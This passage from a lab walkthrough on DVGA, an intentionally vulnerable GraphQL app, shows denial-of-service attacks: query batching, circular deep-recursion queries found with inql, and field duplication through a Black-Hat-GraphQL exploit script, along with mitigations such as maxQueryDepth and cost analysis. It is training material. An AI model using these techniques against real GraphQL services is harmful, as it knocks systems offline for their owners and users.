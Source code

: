 this shows that batch queries are enabled 
```json
[{"data":{"systemHealth":"System Load: 0.00\n"}},{"data":{"systemHealth":"System Load: 0.00\n"}}]
```

Now you can send 100 queries and overload the system

### 2 - Deep recursion query attack


`PasteObject` and `OwnerObject` cross reference each other so let’s use that.

**Automatically** detect circular relationships in the schema:

```python
inql -t http://127.0.0.1:5013/graphql --generate-cycles -o dvga_cycles
```

This confirms what we found in GraphQL Voyager: 
```bash
cat /tmp/dvga_cycles/127.0.0.1:5013

Cycles(
        { OwnerObject -[paste]-> PasteObject -[owner]-> OwnerObject }
        { OwnerObject -[pastes]-> PasteObject -[owner]-> OwnerObject }
)

```

We can then exhaust system ressources using [Unsafe Circular Query](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/unsafe-circular-query.graphql) 


>Solution : the developper must set a value for `maxQueryDepth`, determines how many query we can send in one request. For instance we can set `maxQueryDepth`: 5



### 3 - Field Duplucation Attack

![image](https://flowhero.github.io/assets/images/shemas/2023_07_29_011345.png)


```python
python3 /home/hero/tools/graphql-tools/Black-Hat-GraphQL/ch05/exploit_threaded_field_dup.py http://192.168.1.26:5013/graphql
```

This makes the app unresponsive. You can interrup the script with `CTRL-C` to get your shell back. And you will also need to restart DVGA on your target VM.

```ad-check
title: Solution
with **cost analysis** , this attack will not be as easy to carry out 

```

### 4 - Aliases Based attack 
